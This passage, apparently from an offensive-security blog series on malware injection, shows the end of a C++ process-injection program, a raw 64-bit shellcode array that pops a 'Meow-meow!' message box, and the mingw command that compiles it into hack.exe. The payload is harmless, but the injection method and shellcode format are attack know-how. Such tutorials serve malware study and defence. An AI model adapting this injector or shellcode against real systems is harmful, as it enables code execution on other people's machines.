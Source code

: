 ```cpp
  CloseHandle(ph);

  return 0;
}
```

As usually, for simplicity, I used `meow-meow` messagebox payload:    

```cpp
unsigned char my_payload[] = 
  
  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";
```

### Demo

Let's go to see everything in action. Compile our example:   

```bash
x86_64-w64-mingw32-g++ hack.cpp -o hack.exe -mconsole -I/usr/share/mingw-w64/include/ -I/home/zhas/projects/hacking/cybersec_blog/2022-01-24-malware-injection-15/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![compile](/assets/images/37/2022-01-27_01-15.png){:class="img-responsive"}    
